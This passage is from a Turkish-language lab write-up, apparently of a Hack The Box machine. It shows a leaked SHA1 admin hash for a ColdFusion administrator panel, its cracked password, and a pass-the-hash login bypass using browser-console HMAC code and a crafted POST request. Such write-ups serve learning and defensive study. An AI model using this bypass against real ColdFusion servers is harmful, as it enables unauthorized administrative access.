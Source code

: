 Bu parola alanı bir hash gibi görünüyor ve uzunluğu göz önüne alındığında SHA1 gibi görünüyor: 2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03.

![Pasted image 20250209194539.png](/img/user/resimler/Pasted%20image%2020250209194539.png)

#### Log In

Parola alanına **happyday** yazdığımda başarılı bir şekilde giriş yapabildim.

Peki, kullanıcı **kırılması zor** bir parola seçmiş olsaydı ve bunu kolayca **brute force** yapamasaydım? Aslında burada bunu da aşmanın bir yolu var.

Daha önce gördüğümüz gibi, **JavaScript**, parola girişini (**happyday**) alıp önce **SHA1 hash'ini** oluşturuyor, ardından **HMAC hash** ile birleştiriyor ve **salt (veya key)** ile birlikte siteye gönderiyor.

https://nets.ec/Coldfusion_hacking#Logging_In

Bu yüzden, sitede yapılan işlemi **lokalde taklit edebilirim**. **Leaked hash** sayesinde bunu doğrudan kendim hesaplayabilirim.

Bunun için **Firefox Developer Tools**'a girerek, sayfadaki aynı **JavaScript fonksiyonlarını** kullanarak gönderilen **hash**'i oluşturacağım.

Sayfadaki **salt** değerine erişmek için şu kodu çalıştırabilirim:

```
document.loginform.salt.value
```

Ardından, **SHA1 hash**'i kullanarak gönderilen değeri hesaplayacağım.

```
hex_hmac_sha1(document.loginform.salt.value, '2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03');
```

Bir sonuç verir:

![Pasted image 20250209194708.png](/img/user/resimler/Pasted%20image%2020250209194708.png)

Formu göndereceğim ve hesaplamalara göre hash'i değiştireceğim:

```
POST /CFIDE/administrator/enter.cfm HTTP/1.1
Host: 10.10.10.11:8500
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.11:8500/CFIDE/administrator/
Content-Type: application/x-www-form-urlencoded
Content-Length: 141
Connection: close
Cookie: CFID=100; CFTOKEN=20430451; CFADMIN_LASTPAGE_ADMIN=%2FCFIDE%2Fadministrator%2Fhomepage%2Ecfm
Upgrade-Insecure-Requests: 1

cfadminPassword=C1F159600F4058D19D25DACA563D723273798E8C&requestedURL=%2FCFIDE%2Fadministrator%2Findex.cfm%3F&salt=1589487103545&submit=Login
```
